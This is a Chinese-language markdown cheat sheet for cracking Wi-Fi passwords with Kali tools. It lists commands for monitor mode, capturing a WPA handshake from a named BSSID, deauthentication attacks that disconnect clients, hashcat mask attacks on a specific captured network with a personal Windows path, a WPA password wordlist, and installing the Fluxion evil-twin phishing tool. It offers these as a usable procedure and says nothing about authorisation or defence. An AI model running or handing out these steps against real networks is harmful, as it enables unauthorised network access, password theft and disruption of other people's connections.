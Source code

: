 # Kali WIFI 破解

## 1.监听

```
airmon-ng start wlan0
```

## 2.搜索网络

```
airodump-ng wlan0mon
```

## 3.监听 Wi-Fi 抓包

> -w handshark
>
> 抓包放在 handshark
>
> -c 信道
>
> --bssid 网络 MAC 地址
>
> wlan0mon 监听网络

```
airodump-ng -w handshark -c 4 --bssid 04:20:84:0D:18:29 wlan0mon
```

## 4.ACK 攻击

```
# 攻击客户机
aireplay-ng --deauth 10 -a 74:05:A5:8F:04:B7 -c 74:05:A5:8F:04:B7 wlan0mon --ignore-negative-one

# 攻击网络
aireplay-ng --deauth 0 -a 18:F2:2C:26:30:70 --ignore-negative-one wlan0mon
```

## Hashcat

```
-a  指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
-m  指定要破解的hash类型，如果不指定类型，则默认是MD5
-o  指定破解成功后的hash及所对应的明文密码的存放位置,可以用它把破解成功的hash写到指定的文件中
--force 忽略破解过程中的警告信息,跑单条hash可能需要加上此选项
--show  显示已经破解的hash及该hash所对应的明文
--increment  启用增量破解模式,你可以利用此模式让hashcat在指定的密码长度范围内执行破解过程
--increment-min  密码最小长度,后面直接等于一个整数即可,配置increment模式一起使用
--increment-max  密码最大长度,同上
--outfile-format 指定破解结果的输出格式id,默认是3
--username   忽略hash文件中的指定的用户名,在破解linux系统用户密码hash可能会用到
--remove     删除已被破解成功的hash
-r       使用自定义破解规则
--session 保存进度
--session <session> --restore 恢复进度
```

- 破解 8-11 位数字+小写

```
.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1

.\hashcat.exe -a 3 -m 22000 "C:\Users\Goojoe\Desktop\wifi-path\ChinaNet-6uG9Cu.hc22000" -o "C:\Users\Goojoe\Desktop\wifi-path\passwd.txt" --increment --increment-min 8 --increment-max 11 --custom-charset1 ?l?d ?1?1?1?1?1?1?1?1?1?1?1 --session 6uG9Cu
```

## 字典

- [Github](https://github.com/conwnet/wpa-dictionary)

```
git clone https://gitclone.com/github.com/conwnet/wpa-dictionary.git
```


## Fluixon
```
apt install git
```
### 1.安装
```
# 国内
git clone https://gitclone.com/github.com/FluxionNetwork/fluxion.git

# 国外
git clone https://www.github.com/FluxionNetwork/fluxion.git

# 进入fluxion目录
cd fluxion

# 安装
sudo chmod +x ./fluxion.sh && ./fluxion.sh -i
```
